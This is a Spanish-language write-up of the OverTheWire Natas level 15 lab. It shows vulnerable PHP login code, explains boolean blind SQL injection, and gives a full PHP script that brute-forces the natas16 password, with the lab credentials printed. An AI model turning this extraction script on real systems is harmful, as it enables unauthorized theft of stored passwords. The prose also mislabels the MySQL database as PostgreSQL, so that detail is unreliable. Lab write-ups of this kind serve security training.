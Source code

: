 Si inspeccionamos el HTML, que ahora que hay ingresar un usuario.
Obtenemos el código y notamos que el usuario se valida
en una base de datos PostgreSQL.

```php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
```

Además, hay un comentario indicando el esquema de la base de datos:

```SQL
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
```

Debido a que solo obtendremos si existe o no una fila que coincida con nuestra
consulta, podemos utilizar `LIKE` para ir haciendo consultas incrementales,
obteniendo progresivamente información sobre la contraseña.

```SQL
SELECT * FROM users WHERE username="natas16" AND password LIKE BINARY "a";
```

Podemos armar un script que se encargue de realizar estas consultas hasta
obtener la contraseña final. Una pequeña optimización consiste en primero
obtener los caracteres utilizados en la contraseña, y luego obtener la
contraseña probando únicamente esos caracteres.

```php
$authorization = base64_encode("natas15:TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB");
$url = "http://natas15.natas.labs.overthewire.org/index.php?debug";
$valid = "This user exists.";

function verify($inyection)
{
    global $authorization;
    global $url;
    global $valid;

    $options = [
        'http' => [
            'header' => "Content-type: application/x-www-form-urlencoded\r\n" .
                "Authorization: Basic $authorization\r\n",
            'method' => 'POST',
            'content' => http_build_query(['username' => $inyection]),
        ],
    ];

    $context = stream_context_create($options);
    $response = file_get_contents($url, false, $context);

    return str_contains($response, $valid);
}

function contains_inyection($substring)
{
    return "natas16\" AND password LIKE BINARY \"%$substring%";
}

function startwith_inyection($start)
{
    return "natas16\" AND password LIKE BINARY \"$start%";
}


function equals_inyection($password)
{
    return "natas16\" AND password LIKE BINARY \"$password";
}


$alphabet = array_merge(range('A', 'Z'), range('a', 'z'), range(0, 9));
$filtered = array();

echo "Filtering characters...\n\n";

foreach ($alphabet as $letter) {
    echo "- Checking $letter.";
    if (verify(contains_inyection($letter))) {
        echo " Contained!\n";
        $filtered[] = $letter;
    } else {
        echo "\n";
    }
}

echo "\nFiltered characters: " . join("", $filtered) . "\n";

echo "Bruteforcing password...\n\n";

$password = "";
while (!verify(equals_inyection($password))) {
    echo "Current password: $password\n";
    foreach ($filtered as $letter) {
        echo "- Checking $password$letter";
        if (verify(startwith_inyection($password . $letter))) {
            echo " - Correct!\n";
            $password .= $letter;
            break;
        } else {
            echo "\n";
        }
    }
}

echo "\nFinal password: $password\n";
```

Al ejecutarlo, obtendremos la contraseña para el usuario natas16 luego de un
rato.

```
$ php crack-natas15.php
...
...
Final password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
```

